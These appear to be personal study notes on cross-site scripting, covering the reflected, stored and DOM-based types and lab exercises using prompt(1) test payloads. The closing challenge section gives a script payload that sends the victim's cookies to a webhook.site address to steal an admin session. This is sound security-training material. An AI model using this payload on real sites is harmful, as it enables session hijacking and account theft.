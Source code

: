 **==It allows use to execute javascript code in the browser of the victim.==**

<mark style="background: #FF5582A6;">Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can steal sensitive information, manipulate the web page’s behavior, or perform actions on behalf of the user without their knowledge.</mark>

It is split in:
1. `reflected`, when we send data to a request (javascript code) to the server and it replies with this data we sent
	1. ![[Pasted image 20250104155943.png]]
2. `Stored`, when the data is stored in the server and then served to other victims
	1. ![[Pasted image 20250104160016.png]]
3. `DOM-Based`, when it happens locally in the browser without any interaction with the server (we change the html document without intercting with the server). It this case the page uses vulnerable javascript that gets untrusted input.
	1. ![[Pasted image 20250104160114.png]]


**==In general== `alert()` ==is used but now chrome blocks it so we prefer to use== `print()` or `prompt("hello")`**
- ![[Pasted image 20250104160443.png]]


# DOM lab xss 0x01
We want to inject the add item  functionality:
- ![[Pasted image 20250104160602.png]]

If we look with the inspect of th browser we can see that what we put in input is injected into the html dom:
- ![[Pasted image 20250104160707.png]]
	- no request are generated when we add items

So we try a basilar input:
```javascript
<img src=x onerror="prompt(1)">
```
- ![[Pasted image 20250104160845.png]]

# Stored lab xss 0x02
One thing to see it work is to use firefox containers that allows to use different users on the same browser and different tabs:
- we have to add the extension `firefox multi-account containers`
- ![[Pasted image 20250104161252.png]]

So now we can use different contianers:
- ![[Pasted image 20250104161429.png]]

At this point we can start to inject.

We can see that we can post a comment:
- ![[Pasted image 20250104161503.png]]


So we try to use:
```javascript
<script> prompt(1)</script>
```
- ![[Pasted image 20250104161623.png]]

Since it is served from the server to other clients we have a stored xss.


# XSS challenge

The idea is to steal the admin cookie sending tickets.
We want to force the admin to send to our url the cookie.

To do it we want to use the support ticket functionality.

So we can use `webhook.site` in order to get requests.

So what we want to do is to send a xss in the ticket request:
```javascript
<script> var i = new Image; i.src="webhook_URL/?"+document.cookie;</script>
```


This will allow us to get the cookie of who executes the script.

In fact on `webhook` we can see:
- ![[Pasted image 20250104163309.png]]

